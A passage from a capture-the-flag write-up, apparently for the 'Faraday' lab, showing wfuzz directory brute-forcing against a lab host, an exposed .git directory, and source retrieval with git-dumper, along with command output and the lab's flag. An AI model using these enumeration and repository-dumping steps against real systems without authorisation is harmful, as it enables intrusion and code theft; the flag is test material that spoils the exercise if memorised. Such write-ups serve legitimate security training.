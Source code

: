 ### Let's count

#### FARADAY{7x7\_1s\_n0t\_@lw4ys\_49}

##### Exploitation  

By brute-forcing directories with `wfuzz`, we discover the presence of a `.git` directory. This indicates that an entire `project` repository is exposed, potentially allowing us to retrieve its contents and uncover sensitive information.

```bash
    ❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.13.37.14/FUZZ -t 100 --hc 404  
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://10.13.37.14/FUZZ
    Total requests: 4713
    
    =====================================================================
    ID           Response   Lines    Word       Chars       Payload
    =====================================================================
    
    000000012:   200        10 L     58 W       3892 Ch     ".git/index"
    000000010:   200        1 L      2 W        23 Ch       ".git/HEAD"
    000000011:   200        8 L      20 W       141 Ch      ".git/config"
    000001212:   302        3 L      24 W       262 Ch      "configuration"
    000002511:   200        73 L     125 W      1847 Ch     "login"
    000002525:   302        3 L      24 W       218 Ch      "logout"
    000003304:   302        3 L      24 W       250 Ch      "profile"
    000003799:   200        81 L     129 W      1938 Ch     "signup"
  ```  

  

Using `git-dumper`we can dump all the files from the .git project

```bash
    ❯ git-dumper http://10.13.37.14/.git/ dump
    [-] Testing http://10.13.37.14/.git/HEAD [200]
    [-] Testing http://10.13.37.14/.git/ [404]
    [-] Fetching common files
    ..............................................  
 ```   

  

This will create a new directory called `dump`, in the dumped project we can find the base from which `web`it is running, we see the`app.py`

```bash
    dump ❯ ls -l 
    drwxr-xr-x kali kali 4.0 KB Thu Apr 20 23:17:21 2023  static
    drwxr-xr-x kali kali 4.0 KB Thu Apr 20 23:17:22 2023  templates
    .rw-r--r-- kali kali 8.0 KB Thu Apr 20 23:20:57 2023  app.py
    .rw-r--r-- kali kali 233 B  Thu Apr 20 23:17:20 2023  commit-meta.txt
    .rw-r--r-- kali kali 203 B  Thu Apr 20 23:17:20 2023  requirements.txt  
 ```   
